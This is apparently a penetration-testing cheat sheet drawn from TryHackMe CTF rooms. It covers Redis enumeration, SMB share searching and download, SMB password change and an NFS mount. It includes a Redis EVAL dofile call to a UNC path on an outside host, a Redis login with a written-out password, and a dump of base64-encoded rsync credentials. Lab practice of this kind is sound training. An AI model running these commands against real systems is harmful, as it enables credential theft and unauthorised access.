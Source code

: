 EVAL "dofile('//10.10.234.85/noraj')" 0

INFO

CONFIG GET *

```bash
┌──(arundhanush㉿kali)-[~/CTF/THM/vulnet-internal]
└─$ redis-cli -h 10.10.189.126
10.10.189.126:6379> AUTH B65Hx562F@ggAZ@F  		// username is defalut so give it blank password
OK
10.10.189.126:6379> KEYS *						// cmd to find keys
1) "marketlist"
2) "authlist"
3) "internal flag"
4) "int"
5) "mykey"
6) "tmp"
10.10.189.126:6379> GET "internal flag" 		// get or/ view a keys 
"THM{ff8e518addbbddb74531a724236a8221}"
10.10.189.126:6379> lrange authlist 1 100 		// to list 

1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
10.10.189.126:6379> 


```
## smbmap

sudo smbmap -R Folder -H <IP> -A <FileName> -q // search and download the particular file.

## smbpasswd

```bash
┌──(arun㉿kali)-[~/AD/AD-THM-Rooms/raz0rblack]
└─$ smbpasswd -r 10.10.177.120 -U sbradley       
Old SMB password:
New SMB password:                                                                                                                                                      
Retype new SMB password:                                                                                                                                               
Password changed for user sbradley  
```

## Mount

mount -t nfs4 localhost:/  /mnt/try
